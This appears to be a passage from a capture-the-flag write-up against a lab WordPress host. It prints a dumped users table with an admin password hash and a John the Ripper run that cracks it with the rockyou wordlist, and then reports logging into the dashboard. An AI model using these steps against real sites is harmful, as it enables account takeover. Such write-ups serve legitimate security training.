     +---------------------+---------------------+
    | Column              | Type                |
    +---------------------+---------------------+
    | display_name        | varchar(250)        |
    | ID                  | bigint(20) unsigned |
    | user_activation_key | varchar(255)        |
    | user_email          | varchar(100)        |
    | user_login          | varchar(60)         |
    | user_nicename       | varchar(50)         |
    | user_pass           | varchar(255)        |
    | user_registered     | datetime            |
    | user_status         | int(11)             |
    | user_url            | varchar(100)        |
    +---------------------+---------------------+

    +----+-------------------------------+------------------------------------+---------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
    | ID | user_url                      | user_pass                          | user_email          | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
    +----+-------------------------------+------------------------------------+---------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
    | 1  | http://192.168.0.14/wordpress | $P$BsyLMheEjjRPfxertXBQWm6Nq8.YBr. | webmaster@gmail.com | webmaster  | 0           | webmaster    | webmaster     | 2021-06-02 05:28:40 | <blank>             |
    +----+-------------------------------+------------------------------------+---------------------+------------+-------------+--------------+---------------+---------------------+---------------------+

Let's crack the password using **'john'**.

    root@kali ~/D/M/Ginger [SIGINT]# john hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
    Cost 1 (iteration count) is 8192 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    sanitarium       (?)     
    1g 0:00:00:06 DONE (2022-09-02 09:42) 0.1655g/s 16561p/s 16561c/s 16561C/s shunda..rosnah
    Use the "--show --format=phpass" options to display all of the cracked passwords reliably
    Session completed. 

After logging in we have access to the site's dashboard.

![image](https://user-images.githubusercontent.com/76552238/188171265-0aeca353-3bde-4033-a087-e1d7f4aca3d6.png)

# *2. Exploitation*


[1]: "https://www.exploit-db.com/exploits/37560"